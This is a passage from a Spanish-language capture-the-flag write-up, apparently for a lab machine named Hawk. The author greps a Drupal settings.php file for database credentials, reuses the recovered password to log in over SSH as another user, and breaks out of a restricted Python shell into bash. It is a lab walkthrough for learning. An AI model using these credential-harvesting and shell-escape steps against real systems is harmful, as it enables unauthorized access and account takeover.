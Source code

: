 [booleanworld](https://www.booleanworld.com/guide-ssh-port-forwarding-tunnelling/)

Para realizar el *Local Port Forwarding* necesitamos credenciales válidas de acceso por el puerto `ssh`, por lo que sabemos que un usuario potencia es **daniel**, ahora tenemos que encontrar la contraseña de dicho usuario. Investigando un poco, encontramos el recurso `/var/www/html/sites/default/settings.php` y se observan unas posibles credenciales de acceso

```bash
www-data@hawk:/var/www/html/sites/default$ cat settings.php | grep -i -E "username|password"
 *   'username' => 'username',
 *   'password' => 'password',
 * username, password, host, and database name.
 *   'username' => 'username',
 *   'password' => 'password',
 *   'username' => 'username',
 *   'password' => 'password',
 *     'username' => 'username',
 *     'password' => 'password',
 *     'username' => 'username',
 *     'password' => 'password',
      'username' => 'drupal',
      'password' => 'drupal4hawk',
 * by using the username and password variables. The proxy_user_agent variable
# $conf['proxy_username'] = '';
# $conf['proxy_password'] = '';
www-data@hawk:/var/www/html/sites/default$
```

Ahora probaremos las credenciales *"daniel:drupal4hawk"* en el servicio **ssh**:

```bash
❯ ssh daniel@10.10.10.102
daniel@10.10.10.102's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Sep 17 06:14:20 UTC 2021

  System load:  0.0               Processes:           173
  Usage of /:   47.5% of 7.32GB   Users logged in:     0
  Memory usage: 58%               IP address for eth0: 10.10.10.102
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

417 packages can be updated.
268 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Sep 17 06:02:50 2021 from 10.10.14.2
Python 3.6.5 (default, Apr  1 2018, 05:46:30) 
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>>
>>> import os
>>> os.system("/bin/bash")
daniel@hawk:~$ whoami
```